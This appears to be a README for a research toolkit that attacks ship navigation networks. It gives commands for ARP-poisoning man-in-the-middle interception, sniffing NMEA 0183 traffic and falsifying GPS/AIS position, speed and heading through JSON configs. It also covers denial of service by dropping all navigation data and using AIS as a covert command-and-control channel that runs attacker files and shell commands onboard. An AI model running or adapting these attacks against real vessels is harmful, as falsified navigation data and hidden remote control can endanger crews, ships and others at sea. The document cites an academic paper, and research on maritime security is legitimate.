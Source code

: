 # NMEA_Tool_Kit

Tool kit for encoding, decoding **NMEA 0183 sentences of AIS, GPS** and to perform MITM attacks ship board navigational systems.

This scripts are tested in Ubuntu Machiene running ***Python 3.9.7*** with simulated NMEA 0183 data.

## Setup

To use the scriprs, install the modules in the ***requirements.txt***

> pip3 install requirements.txt


## Attack Modes

Script contains 4 attack options, run ***-h*** for help.

> python3 nmea_attacks.py -h

Before running the ***nmea_attacks.py***, need to run ***mitm_arp.py*** to start ARP poisoining to intercept traffic, Requires root privileges

> sudo python3 mitm_arp.py -t TARGET_IP -s SOURCE_IP -i INTERFACE_NAME

#### S - Sniffing Attack

Sniff all NMEA 0183 data in communication between targets.

> sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o S


#### M - Modification Attack

Modify NMEA sentence data fields based on json configuration file.

> sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o M -c CONFIG_FILE.json

For sample configuration refer ***mitm_config.json***

```
"GPGGA" : {
    "attributes" : [
        {
            "key" : "hdop",
            "value" : "2",
            "incremental": false
        },
        {
            "key" : "lon",
            "value": 100,
            "incremental" : true
        }
    ]
}
```
if incremental is ```true```, then specify value as ```integer or float``` (without quotes).

#### A - Attribute Modification

To target specific data fileds across all intercepted sentences if exists (eg. lat/lon).

> sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o A -c CONFIG_FILE.json

Refer ***attr_config.json*** for example

```
{
"attributes" : 
    [
        {
            "key" : "lat",
            "value" : 100,
            "incremental": true
        },
        {
            "key" : "spd_over_grnd",
            "value" : "10",
            "incremental": false
        },
        {
            "key": "heading",
            "value" : "20",
            "incremental" : false
        }

    ]
}
```

#### D - DoS attacks

Actively drop all NMEA 0183 data in transit

> sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o D

## AIS Command & Control

Use AIS as covert communication channel between attacker machine and attacker controlled node onboard the vessel. For detailed explation please refer

```
Ahmed Amro, Vasileios Gkioulos, "From Click To Sink: Utilizing AIS for command and control in maritime cyber attacks", 27th European Symposium on Research in Computer Security (ESORICS) 2022.
```
#### NOTE: 

#### Generate Payloads

To create AIS sentences with attacker payload use ***ais_cc.py**

For file payloads

> python3 ais_cc.py -f FILE_NAME

For commands

> python3 ais_cc.py -c "CMD"

#### Command & Control Execution

Attack option ***-o C*** in ***nmea_attacks.py*** demonstrates attack node executing payloads in AIS senetences.

> sudo python3 nmea_attacks.py -t TARGET_IP -s SOURCE_IP -o C